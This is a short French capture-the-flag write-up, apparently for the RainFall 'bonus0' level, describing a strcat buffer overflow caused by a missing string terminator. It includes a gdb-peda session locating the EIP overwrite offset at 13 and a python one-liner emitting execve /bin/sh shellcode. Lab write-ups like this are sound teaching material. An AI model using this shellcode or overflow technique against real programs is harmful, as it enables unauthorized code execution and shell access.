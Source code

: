- en lisant le code et en l'executant on comprend qu'il y a un bug/faille
- dans la fonction pp le \0 de la 1er string est remplacer par un espace
- se qui fait quequand la premiere string est entierement remplis il considere str1 et str2 comme une string
- str2 est donc copier a la fin de str1 + str2 dans strcat
- Dans gdb on voit donc qu'on peut ecrire sur la variable $eip
<pre>
gdb-peda$ pattern create 30
'AAA%AAsAABAA$AAnAACAA-AA(AADAA'
gdb-peda$ r
Starting program: /home/alarm/rainfall/bonus0/Ressources/bonus0 
 - 
iiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiii
 - 
AAA%AAsAABAA$AAnAACAA-AA(AADAA
iiiiiiiiiiiiiiiiiiiiAAA%AAsAABAA$AAnAACA AAA%AAsAABAA$AAnAACA

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
<strong>EIP: 0x416e4141 ('AAnA')</strong>
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x416e4141
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x416e4141 in ?? ()
gdb-peda$ pattern offset AAnA
<strong>AAnA found at offset: 13</strong>
</pre>

```
(python -c "print('\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd')" && ./a.out && cat)
```
